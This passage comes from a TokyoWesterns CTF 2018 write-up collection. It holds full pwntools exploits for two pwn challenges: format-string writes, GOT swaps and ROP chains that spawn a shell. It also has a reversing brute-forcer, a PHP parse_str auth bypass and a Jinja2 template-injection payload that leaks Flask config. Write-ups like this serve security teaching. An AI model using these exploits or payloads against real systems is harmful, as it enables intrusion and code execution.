However, for the saved rbp values, which are pointers of stack, the value of LSB is uncertain unlike other pages, but the last 4 bits are always zero to ensure the alignment. Thus, the probability of success is `1/16`, which is acceptable.

```
Please tell me about yourself. I must talk about you to our mayor.
%9$p
0x7ffd5d257ca0
Please tell me about yourself. I must talk about you to our mayor.
%9$p
0x7ffeaa4289e0
Please tell me about yourself. I must talk about you to our mayor.
%9$p
0x7ffe77564440
```

We can disable ALSR to make our debugging more convinient: `echo 0 | sudo tee /proc/sys/kernel/randomize_va_space`

After changing the bytes to stdout, we can leak everything. The way to getshell is then not hard, attack `_FILE_IO`, or return address of `fprintf`, whatever u what. What I did is rewrite the return address to `one_gadget`, but before that we need to do some preparation(write `NULL` for requirement of `one_gadget`, write pointers to saved return address of `fprintf` on stack) first.

the exp:

```python
from pwn import *

g_local=True
context.log_level='debug'
UNSORTED_OFF = 0x3c4b78
IO_STR_FINISH = 0x3C37B0
GUESSED_STDERR_POS = 0x28
GUESSED_NEEDNULL_POS = (0x58 - 0x28) + GUESSED_STDERR_POS
GUESSED_FPRINTF_RET_POS = (0x18 - 0x28) + GUESSED_STDERR_POS
GUESSED_BUF_POS = (0x68 - 0x28) + GUESSED_STDERR_POS
#14 15 16 for format $

if g_local:
	e = ELF("/lib/x86_64-linux-gnu/libc-2.23.so")
	sh = process('./neighbor_c')#env={'LD_PRELOAD':'./libc.so.6'}
	ONE_GADGET_OFF = 0x4526a
	gdb.attach(sh)
else:
	sh = remote("neighbor.chal.ctf.westerns.tokyo", 37565)
	e = ELF("./libc.so.6")
	ONE_GADGET_OFF = 0x4557a

def slp():
	if g_local:
		sleep(0.1)
	else:
		sleep(1.1)

def hhn(pos, val):
	assert val < 0x100
	if val == 0:
		return "%" + str(pos) + "$hhn"
	else:
		return "%" + str(val) + "c%" + str(pos) + "$hhn"

def hn(pos, val):
	assert val < 0x10000
	if val == 0:
		return "%" + str(pos) + "$hn"
	else:
		return "%" + str(val) + "c%" + str(pos) + "$hn"

def once(payload):
	sh.send(payload + "\n")
	slp()
	return sh.recv(timeout=0.1)

def stack_hn(rel_pos, val):
	once(hhn(9, rel_pos))
	once(hn(11, val))

def write_addr(rel_pos, val):
	stack_hn(rel_pos, val & 0xffff)
	stack_hn(rel_pos + 2, (val >> 0x10) & 0xffff)
	stack_hn(rel_pos + 4, (val >> 0x20) & 0xffff)

def cont_shoot(poses, vals, extra):
	assert len(poses) == len(vals)
	size = len(poses)
	ret = ""
	i = 0
	cur_size = 0
	next_overflow = 0
	while i < size:
		assert next_overflow >= cur_size
		num = next_overflow - cur_size + vals[i]
		if num < 0x10000:
			ret += hn(poses[i], num)
			next_overflow += 0x10000
		else:
			num = vals[i] - (cur_size - (next_overflow - 0x10000))
			assert num >= 0
			ret += hn(poses[i], num)
		cur_size += num
		i += 1
	return ret

sh.recvuntil("Please tell me about yourself. I must talk about you to our mayor.\n")

once(hhn(9, GUESSED_STDERR_POS))
once(hhn(11, (e.symbols["_IO_2_1_stderr_"] & 0xff) + 0x70))
once(hhn(6, 1))
# now stderr is already stdout, u can leak everything

if once("test") != "test\n":
	quit(1)

write_addr(GUESSED_NEEDNULL_POS, 0)
#for 0x30 one_gadget

stack_addr = int(once("%9$lx"), 16)
libc_addr = int(once("%8$lx"), 16) - e.symbols["_IO_2_1_stderr_"]
print hex(libc_addr)
print hex(stack_addr)

write_addr(GUESSED_BUF_POS, stack_addr - 0x50 + 0x18)
write_addr(GUESSED_BUF_POS + 8, stack_addr - 0x50 + 0x1A)
write_addr(GUESSED_BUF_POS + 0x10, stack_addr - 0x50 + 0x1C)
#14 15 16 for format $ to rewrite ret addr of fprintf

one_gadget = libc_addr + ONE_GADGET_OFF

once(cont_shoot([14,15,16],[one_gadget & 0xffff, (one_gadget >> 0x10) & 0xffff, one_gadget >> 0x20], ""))

sh.interactive()
```

## 233 Pwnable / swap Returns ##

**Description**

> SWAP SAWP WASP PWAS SWPA
> 
> nc swap.chal.ctf.westerns.tokyo 37567

**Files provided**

 - [`swap_returns`](files/swap_returns)
 - [`libc.so.6`](files/libc.so.6)

**Solution** (by [Mem2019](https://github.com/Mem2019))

The program is simple, we can swap the `QWORD` given 2 addresses. The first thing that comes in my mind is to swap the `GOT table`, but the only useful part seems to be swap the `atoi` and `printf`, thus we can leak the stack address using `%p`.

The problem is that we can control almost nothing on the stack, 2 pointers that must be used for swapping, 2 bytes which is not enough to do anything. Here is where I got stucked. Then I inspect the stack and `.data` to find something useful to swap, then I found `0x400700`, which is the entry point, on the stack. Thus, if we swap the `exit` with this entry point, we can rerun the program each time we call `exit`. In this way we can shift the stack up, at the same time the values of that 2 pointers is remained on the stack, which are controllable.

Therefore, we can call set and exit for multiple times, and then call swap to swap those data to construct a ROP chain, then swap `printf` with a gadget that is putted in the stack beforehand, then call `printf` to execute our ROP.

What I did is to do it in 2 steps, in the first step I leak the libc address, and return to main function, in the second step I call `system("/bin/sh")` to getshell

Initially I want to call read directly, however, there is no `pop rdx`, so I used this 2-step way.

exp:

```python
from pwn import *

g_local=True
context.log_level='debug'

p = ELF("./swap_returns")
START_OFF = -6 + 0x90
ADD_RSP_0x38 = 0x400a46
POP_RDI_RET = 0x400a53
POP_RSI_R15_RET = 0x400a51
MAIN = 0x4008E9

if g_local:
	e = ELF("/lib/x86_64-linux-gnu/libc-2.23.so")
	sh = process('./swap_returns')#env={'LD_PRELOAD':'./libc.so.6'}
	ONE_GADGET_OFF = 0x4526a
	gdb.attach(sh)
else:
	sh = remote("swap.chal.ctf.westerns.tokyo", 37567)
	e = ELF("./libc.so.6")
	ONE_GADGET_OFF = 0x4557a

def set_pointers(addr1, addr2):
	sh.send("1\n")
	sh.recvuntil("1st address: \n")
	sh.send(str(addr1) + "\n")
	sh.recvuntil("2nd address: \n")
	sh.send(str(addr2) + "\n")
	sh.recvuntil("Your choice: \n")

def swap():
	sh.send("2\n")
	sh.recvuntil("Your choice: \n")

def exit():
	sh.send("3\n")
	sh.recvuntil("Your choice: \n")

def invalid_choice():
	sh.send("4\n")
	sh.recvuntil("Your choice: \n")

#leak stack addr---------------------------

invalid_choice()
#make sure dl resolve being called

set_pointers(p.got["atoi"], p.got["printf"])
swap()

sh.send("%p")
stack_leak = sh.recvuntil("0x")
stack_addr = int(sh.recv(12), 16)
print hex(stack_addr)


#recover atoi and printf-------------------------
sh.recvuntil("Your choice: \n")
sh.send("A") # strlen = 1, so set pointer

sh.recvuntil("1st address: \n")
sh.send(str(p.got["atoi"]) + "\n")
sh.recvuntil("2nd address: \n")
sh.send(str(p.got["printf"]) + "\n")
sh.recvuntil("Your choice: \n")

sh.send("AA") # strlen = 2, so swap
sh.recvuntil("Your choice: \n")

#replace exit with _start-------------------------
set_pointers(stack_addr + START_OFF, p.got["_exit"])
swap()
#now call exit to raise the stack


#fill stack & construct ROP----------------------
def fill_stack(data):
	assert len(data) == 0x10
	set_pointers(u64(data[:8]), u64(data[8:]))
	exit()

rop = p64(POP_RDI_RET)
rop += p64(p.got["puts"])
rop += p64(p.plt["puts"])
rop += p64(MAIN)
rop += p64(ADD_RSP_0x38)
rop += p64(0)
# rdx is 0, and no pop rdx, so failed
# rop += p64(POP_RDI_RET)
# rop += p64(0)
# rop += p64(POP_RSI_R15_RET)
# rop += p64(stack_addr - ) #todo
# rop += p64(ADD_RSP_0x38)
# rop += p64(p.plt["read"])
# rop += "gadget\x00\x00" #to be filled

i = len(rop) - 0x10
while i >= 0:
	fill_stack(rop[i:i+0x10])
	i -= 0x10

#sh.interactive()

fst_data = stack_addr - 0x1f6
print hex(fst_data)
#0x110 for each, totally len(rop)/0x10
#-0x53e is the stack when printf being called

printf_rsp = stack_addr - 0x31e
rop_dst = printf_rsp + 0x38
print hex(rop_dst)

for i in xrange(0, len(rop)/0x10):
	set_pointers(fst_data + 0x110 * i, rop_dst + 0x10 * i)
	swap()
	set_pointers(fst_data + 0x110 * i + 8, rop_dst + 0x10 * i + 8)
	swap()

add_rsp = rop_dst + 0x20
set_pointers(add_rsp, p.got["printf"])
swap()

sh.send("3\n")
#rop will call main again, with return address being printf
leak = sh.recvuntil("\x7f\n")
libc_addr = u64(leak[:6] + "\x00\x00") - e.symbols["puts"]

print hex(libc_addr)
sh.recvuntil("Your choice: \n")

set_pointers(add_rsp, p.got["printf"])
swap()
#swap printf back

rop2 = p64(POP_RDI_RET)
rop2 += p64(libc_addr + next(e.search("/bin/sh\x00")))
rop2 += p64(libc_addr + e.symbols["system"])
rop2 += p64(0)

i = len(rop2) - 0x10
while i >= 0:
	print rop2[i:i+0x10]
	fill_stack(rop2[i:i+0x10])
	i -= 0x10

fst_data = stack_addr - 0x406
print hex(fst_data)
#0x110 for each, totally len(rop)/0x10
#-0x53e is the stack when printf being called

printf_rsp = stack_addr - 0x52e
rop_dst = printf_rsp + 0x38
print hex(rop_dst)

for i in xrange(0, len(rop2)/0x10):
	set_pointers(fst_data + 0x118 * i, rop_dst + 0x10 * i)
	swap()
	set_pointers(fst_data + 0x118 * i + 8, rop_dst + 0x10 * i + 8)
	swap()
	#interval becomes 0x118, not sure why,
	#maybe there is a stack adjustment in _libc_start_main
	#the ROP that returns to the main breaks the alignment,
	#so that it will adjust alignment and change this distance?

set_pointers(add_rsp, p.got["printf"])
swap()

sh.interactive()
```

## 99 Reversing / dec dec dec ##

**No description**

**Files provided**

 - [`dec_dec_dec`](files/dec_dec_dec)

**Solution** (by [Mem2019](https://github.com/Mem2019))

The first encode is base64

```c
_BYTE *__fastcall base64(const char *a1)
{
  unsigned int v1; // ST1C_4
  int v2; // ST2C_4
  _BYTE *v3; // rax
  _BYTE *v4; // ST30_8
  _BYTE *v5; // rax
  _BYTE *v6; // rax
  int v7; // ST24_4
  _BYTE *v8; // rax
  _BYTE *v9; // ST30_8
  _BYTE *v10; // rax
  _BYTE *v11; // rax
  unsigned int v12; // ST1C_4
  _BYTE *v13; // rax
  _BYTE *v14; // ST30_8
  _BYTE *v15; // rax
  _BYTE *v16; // rax
  signed int i; // [rsp+10h] [rbp-80h]
  unsigned int v19; // [rsp+14h] [rbp-7Ch]
  _BYTE *v20; // [rsp+30h] [rbp-60h]
  _BYTE *v21; // [rsp+38h] [rbp-58h]
  __int64 v22; // [rsp+40h] [rbp-50h]
  __int64 v23; // [rsp+48h] [rbp-48h]
  __int64 v24; // [rsp+50h] [rbp-40h]
  __int64 v25; // [rsp+58h] [rbp-38h]
  __int64 v26; // [rsp+60h] [rbp-30h]
  __int64 v27; // [rsp+68h] [rbp-28h]
  __int64 v28; // [rsp+70h] [rbp-20h]
  __int64 v29; // [rsp+78h] [rbp-18h]
  char v30; // [rsp+80h] [rbp-10h]
  unsigned __int64 v31; // [rsp+88h] [rbp-8h]

  v31 = __readfsqword(0x28u);
  v22 = 'HGFEDCBA';
  v23 = 'PONMLKJI';
  v24 = 'XWVUTSRQ';
  v25 = 'fedcbaZY';
  v26 = 'nmlkjihg';
  v27 = 'vutsrqpo';
  v28 = '3210zyxw';
  v29 = '/+987654';
  v30 = 0;
  v19 = strlen(a1);
  v21 = malloc(4 * v19 / 3 + 1);
  v20 = v21;
  for ( i = 0; i < (signed int)(v19 - v19 % 3); i += 3 )
  {
    v1 = (a1[i + 1] << 8) + (a1[i] << 16) + a1[i + 2];
    v2 = a1[i + 2] & 0x3F;
    v3 = v20;
    v4 = v20 + 1;
    *v3 = *((_BYTE *)&v22 + ((v1 >> 18) & 0x3F));
    v5 = v4++;
    *v5 = *((_BYTE *)&v22 + ((v1 >> 12) & 0x3F));
    *v4 = *((_BYTE *)&v22 + ((v1 >> 6) & 0x3F));
    v6 = v4 + 1;
    v20 = v4 + 2;
    *v6 = *((_BYTE *)&v22 + v2);
  }
  if ( v19 % 3 == 1 )
  {
    v7 = 16 * a1[i] & 0x3F;
    v8 = v20;
    v9 = v20 + 1;
    *v8 = *((_BYTE *)&v22 + (((unsigned int)(a1[i] << 16) >> 18) & 0x3F));
    v10 = v9++;
    *v10 = *((_BYTE *)&v22 + v7);
    *v9 = '=';
    v11 = v9 + 1;
    v20 = v9 + 2;
    *v11 = '=';
  }
  else if ( v19 % 3 == 2 )
  {
    v12 = (a1[i] << 16) + (a1[i + 1] << 8);
    v13 = v20;
    v14 = v20 + 1;
    *v13 = *((_BYTE *)&v22 + ((v12 >> 18) & 0x3F));
    v15 = v14++;
    *v15 = *((_BYTE *)&v22 + ((v12 >> 12) & 0x3F));
    *v14 = *((_BYTE *)&v22 + ((v12 >> 6) & 0x3F));
    v16 = v14 + 1;
    v20 = v14 + 2;
    *v16 = 61;
  }
  *v20 = 0;
  return v21;
}
```

the second encode is some rotate

```c
char *__fastcall rot(char *a1)
{
  int v1; // ST1C_4
  char *s; // [rsp+8h] [rbp-28h]
  char v4; // [rsp+1Bh] [rbp-15h]
  char *v5; // [rsp+20h] [rbp-10h]
  char *v6; // [rsp+28h] [rbp-8h]

  s = a1;
  v1 = strlen(a1);
  v6 = (char *)malloc((unsigned int)(v1 + 1));
  v5 = v6;
  while ( *s )
  {
    v4 = *s;
    if ( *s > 0x40 && v4 <= 'Z' )
    {
      *v5 = (v4 - '4') % 26 + 'A';
    }
    else if ( v4 > '`' && v4 <= 'z' )
    {
      *v5 = (v4 - 'T') % 26 + 'a';
    }
    else
    {
      *v5 = *s;
    }
    ++v5;
    ++s;
  }
  *v5 = 0;
  return v6;
}
```

The third encode, well, I don't know what's that. According to my test, the first byte is a checksum, and each 4 bytes from the remaining bytes correspond to 3 bytes from input, so we can brute force crack it.

```c
char* res = "@25-Q44E233=,>E-M34=,,$LS5VEQ45)M2S-),7-$/3T ";
unsigned char buf[128];
int main(int argc, char *argv[])
{
	unsigned int* ures = (unsigned int*)(res + 1);
	for (int i = 0; i < 11; ++i)
	{
		//printf("%d: \n", i);
		for (int c = 0; c < 0x1000000; ++c)
		{
			char* tmp1 = rot((char*)&c);
			unsigned char* tmp2 = (unsigned char*)trans((unsigned char*)tmp1);
			//puts(tmp2);
			//puts(ures + i);
			if (*(unsigned int*)(tmp2 + 1) == ures[i])
			{
				//printf("%d found", i);
				printf("%s", (char*)&c);
			}
			free(tmp1);
			free(tmp2);
		}
	}
	return 0;
}
```

## 28 Warmup / Welcome!! ##

**Description**

> Welcome
> 
> `TWCTF{Welcome_TokyoWesterns_CTF_2018!!}`

**No files provided**

**Solution**

...

`TWCTF{Welcome_TokyoWesterns_CTF_2018!!}`

## 55 Web / SimpleAuth ##

**Description**

> http://simpleauth.chal.ctf.westerns.tokyo/

**No files provided**

**Solution**

On the website we are shown the source code:

```php
<?php

require_once 'flag.php';

if (!empty($_SERVER['QUERY_STRING'])) {
    $query = $_SERVER['QUERY_STRING'];
    $res = parse_str($query);
    if (!empty($res['action'])){
        $action = $res['action'];
    }
}

if ($action === 'auth') {
    if (!empty($res['user'])) {
        $user = $res['user'];
    }
    if (!empty($res['pass'])) {
        $pass = $res['pass'];
    }

    if (!empty($user) && !empty($pass)) {
        $hashed_password = hash('md5', $user.$pass);
    }
    if (!empty($hashed_password) && $hashed_password === 'c019f6e5cd8aa0bbbcc6e994a54c757e') {
        echo $flag;
    }
    else {
        echo 'fail :(';
    }
}
else {
    highlight_file(__FILE__);
}
?>
```

The hash is not known on crackstation, so there must be another issue with the code. I created a local copy of the script to play around with it and I noticed some weird behaviour – no matter what `$query` I provided, `$res` always seemed to be `null`.

Looking at [the manual entry for parse_str](http://php.net/manual/en/function.parse-str.php) this weirdness is explained almost immediately with a big red warning sign. If the function is used with a single argument, as is the case in this challenge, it sets (and overrides) variables in the current scope. It never returns anything, so `$res` is always `null`.

So we can simply go to:

    http://simpleauth.chal.ctf.westerns.tokyo/?action=auth&hashed_password=c019f6e5cd8aa0bbbcc6e994a54c757e

And get the flag.

`TWCTF{d0_n0t_use_parse_str_without_result_param}`

## 190 Web / shrine ##

**Description**

> [shrine](http://shrine.chal.ctf.westerns.tokyo/) is translated as jinja in Japanese.

**No files provided**

**Solution**

The website shows us its source code:

```python

import flask
import os


app = flask.Flask(__name__)
app.config['FLAG'] = os.environ.pop('FLAG')

@app.route('/')
def index():
    return open(__file__).read()

@app.route('/shrine/<path:shrine>')
def shrine(shrine):
    def safe_jinja(s):
        s = s.replace('(', '').replace(')', '')
        blacklist = ['config', 'self']
        return ''.join(['{}'.format(c) for c in blacklist])+s
    return flask.render_template_string(safe_jinja(shrine))

if __name__ == '__main__':
    app.run(debug=True)
```

So it is an application using [Flask](http://flask.pocoo.org/), which also includes the templating engine [Jinja2](http://jinja.pocoo.org/).

It lets us provide an arbitrary string that is then evaluated as a template string. However, some code is prepended, which has the effect of hiding the proper values of `config` and `self`, variables which would normally be globally available in templates for convenience.

These two variables are not the only ones that are always made available in template contexts, however. [This page](http://flask.pocoo.org/docs/1.0/templating/#standard-context) has the full list:

 - `config` (unavailable)
 - `request`
 - `session`
 - `g`
 - `url_for()`
 - `get_flashed_messages()`

I tried to get something useful from `request`, `session`, or `g` for a while, but I couldn't find a single reference to the Flask application object. But I guess I was on the wrong path, since the `url_for()` function is much more useful:

    input:  {{url_for}}
    URL:    http://shrine.chal.ctf.westerns.tokyo/shrine/%7B%7Burl_for%7D%7D
    output: <function url_for at 0x7f3429e20d08>

A reference to a function is useful because it has some magic variables that refer to its global and local context (important for closures and the like):

    input:  {{url_for.__globals__}}
    URL:    http://shrine.chal.ctf.westerns.tokyo/shrine/%7B%7Burl_for.__globals__%7D%7D
    output: (... a full list of globals, including current_app)
    
    input:  {{url_for.__globals__.current_app}}
    URL:    http://shrine.chal.ctf.westerns.tokyo/shrine/%7B%7Burl_for.__globals__.current_app%7D%7D
    output: <Flask 'app'>
    
    input:  {{url_for.__globals__.current_app.config}}
    URL:    http://shrine.chal.ctf.westerns.tokyo/shrine/%7B%7Burl_for.__globals__.current_app.config%7D%7D
    output: (... the full configuration)
    
    input:  {{url_for.__globals__.current_app.config.FLAG}}
    URL:    http://shrine.chal.ctf.westerns.tokyo/shrine/%7B%7Burl_for.__globals__.current_app.config.FLAG%7D%7D
    output: TWCTF{pray_f0r_sacred_jinja2}

`TWCTF{pray_f0r_sacred_jinja2}`
